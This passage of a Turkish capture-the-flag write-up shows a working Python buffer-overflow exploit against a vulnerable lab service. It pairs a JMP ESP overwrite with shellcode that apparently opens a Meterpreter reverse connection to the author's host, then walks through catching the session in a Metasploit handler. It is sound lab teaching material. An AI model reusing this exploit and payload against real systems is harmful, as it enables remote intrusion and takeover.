 Scriptimizin son hali bu şekilde.

        import socket
        tampon="OVERFLOW "
        tampon+="A"*35
        jmpesp="\x8d\x92\x04\x08"
        buf =  ""
        buf += "\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
        buf += "\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x02\x80\x68"
        buf += "\x02\x00\xad\x9e\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
        buf += "\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
        buf += "\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
        buf += "\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
        buf += "\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
        buf += "\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd"
        buf += "\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
        buf += "\x01\x00\x00\x00\xcd\x80"
        payload=tampon+jmpesp+buf
        s=socket.socket()
        s.connect(("192.168.2.147",1337))
        s.send(payload)
        
Bunu script'i .py uzantılı şekilde kaydediyoruz.

Bu arada çaktırmadan vulnserver programının exploit'ini de yazmış olduk. :)

Exploit'imizi çalıştırmadan önce gelen bağlantıyı dinlememiz gerekiyor.
Dönecek bağlantı meterpreter olduğu için metasploit'in içinden dinlememiz gerekiyor.
Bunun için de metasploit handler'ını açıyoruz ve gerekli parametreleri veriyoruz.

![enter image description here](https://i.ibb.co/54jY6J8/ov-met.png)

Burası gelecek bağlantıları dinlemeye başladı.
Geriye kalan tek şey exploitimizi çalıştırmak.
Ben script'i overflowexploit adıyla kaydettim.

![enter image description here](https://i.ibb.co/Ch3CfkP/ov-exploit.png)

Bu şekilde exploit'imizi çalıştırıyoruz ve inşallah bağlantı düşmüştür diye dua etmeye başlıyoruz :)
Sonrasında handler'ımızın çalıştığı sekmeye geri dönüyoruz veee...

![enter image description here](https://i.ibb.co/PFygbB0/ov-meterpreter.png)

![enter image description here](https://im2.ezgif.com/tmp/ezgif-2-5d55e275ef2b.gif)
gif via : [reddit](https://www.reddit.com/r/blackhat/comments/c2kjc9/the_happiness_of_getting_a_meterpreter_session/?utm_source=share&utm_medium=web2x)


BAŞARDIK :)
shell'e düşüp biraz gezinelim.

![enter image description here](https://i.ibb.co/Nnq2rt0/ov-last.png)

Böylece bu makine için user flagimizi elde ettik ve ilk aşamayı tamamladık.

Bu yazıyı uzun olduğu için burada sonlandırıyorum.
Makinede root hakları elde etme aşaması 2. partta olacak diye umuyorum.


